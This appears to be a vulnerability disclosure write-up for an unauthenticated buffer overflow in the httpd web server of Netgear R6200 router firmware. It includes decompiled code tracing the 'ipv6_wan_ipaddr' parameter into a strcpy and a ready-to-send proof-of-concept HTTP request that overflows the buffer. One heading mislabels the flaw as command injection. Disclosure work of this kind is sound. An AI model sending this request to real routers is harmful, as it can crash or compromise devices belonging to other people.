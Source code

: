 # Buffer Overflow Vulnerability in `ipv6_wan_ipaddr`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6200 Router                                         |
| Firmware Version     | V1.0.1.58_1.0.44                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`IPv6FixCgiMain` → `IPv6CgiGetParam`) (data flow via `ipv6_wan_ipaddr`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `ipv6_wan_ipaddr` |

2. Exploitation Path

```c
int __fastcall IPv6FixCgiMain(char *a1, int a2)
{
  ...
  char v7[256]; // [sp+18h] [-100h] BYREF
  ...
  websGetVar(a1, "ipv6_wan_ipaddr", v7);
  if ( !acosNvramConfig_match("ipv6_wan_ipaddr", v7) )
  {
    acosNvramConfig_set("ipv6_wan_ipaddr", v7);
    v4 = 1;
  }
  ...
}

int __fastcall IPv6CgiGetParam(int a1, const char *a2, char *a3)
{
  ...
  char v25[128]; // [sp+7Eh] [-182h] BYREF
  ...
  memset(v25, 0, sizeof(v25));
  if ( strcmp(a2, "ipv6_auto_type") )
  {
    if ( !strcmp(a2, "ipv6_wan") )
    {
      v8 = (const char *)acosNvramConfig_get("ipv6_wan_ipaddr");
      strcpy(v25, v8);
      ...
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: Within the `httpd` binary, the `IPv6FixCgiMain` function at line 6 invokes `websGetVar(a1, "ipv6_wan_ipaddr", v7)` to receive input. While a 255-byte length limit is enforced at this stage, no further validation is applied. The input is subsequently stored temporarily via `acosNvramConfig_set("ipv6_wan_ipaddr", v7)` at line 9. Later, the `IPv6CgiGetParam` function retrieves this intermediate value at line 25 using `v8 = (const char *)acosNvramConfig_get("ipv6_wan_ipaddr")`. Finally, at line 26, the data is copied into the destination buffer `v25` via `strcpy(v25, v8)`, where `v25` has a size of 128 bytes, leading to a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/IPv6FixCgiMain HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

ipv6_wan_ipaddr=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```